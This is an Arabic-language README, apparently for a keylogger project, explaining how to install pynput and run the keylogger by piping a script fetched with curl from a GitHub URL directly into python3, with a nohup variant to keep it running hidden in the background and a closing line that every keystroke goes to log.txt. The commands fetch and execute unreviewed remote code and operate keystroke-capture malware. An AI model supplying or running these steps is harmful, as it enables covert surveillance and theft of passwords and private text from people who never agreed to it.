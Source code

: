 1-إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:

sudo apt update

sudo apt install python3


2-بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:

pip3 install pynput

3-لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/Keylogger/main/keylogger.py)


4-لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/Keylogger/main/keylogger.py) &


إذا كنت قد شغلت البرنامج باستخدام nohup أو قمت بتشغيله كعملية في الخلفية، يمكنك العثور على العملية عبر الأمر:

ps aux | grep keylogger.py


 لإيقاف العملية:

 kill <PID>
على سبيل المثال، إذا كان الـ PID هو 1234، فإن الأمر يكون:
kill 1234



سيبدأ البرنامج الآن في تسجيل كل ضغطة على لوحة المفاتيح في ملف log.txt :tada: :ninja:

